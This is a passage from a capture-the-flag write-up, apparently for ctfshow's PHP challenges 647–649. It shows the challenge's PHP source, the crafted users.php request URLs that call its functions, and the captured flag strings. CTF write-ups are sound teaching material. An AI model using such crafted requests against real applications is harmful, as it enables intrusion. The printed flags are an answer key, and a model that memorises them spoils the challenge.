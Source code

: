 

/users.php?action=evilString&m=get_defined_constants

![image-20211104173417734](images/image-20211104173417734.png)

## flag_648

ctfshow{af5b5e411813eafd8dc2311df30b394e}

搜索647，找到如下代码，及当调用

```php
function evilClass($m,$k){
	class ctfshow{
		public $m;
		public function construct($m){
			$this->$m=$m;
		}
	}

	$ctfshow=new ctfshow($m);
	$ctfshow->$m=$m;
	if($ctfshow->$m==$m && $k==shell_exec('cat /FLAG/FLAG647')){
		echo shell_exec('cat /FLAG/FLAG648');
	}else{
		echo 'mmmmm?';
	}

}
```

/users.php?action=evilNumber&m=&key=flag_648=ctfshow{af5b5e411813eafd8dc2311df30b394e}

![image-20211104173533222](images/image-20211104173533222.png)

## flag_649

ctfshow{9ad80fcc305b58afbb3a0c2097ac40ef}

```php
function evilNumber($m,$k){
	$number = getArray(1000,20,10,999);
	if($number[$m]==$m && $k==shell_exec('cat /FLAG/FLAG648')){
		echo shell_exec('cat /FLAG/FLAG649');
	}else{
		echo 'number is right?';
	}
}
```
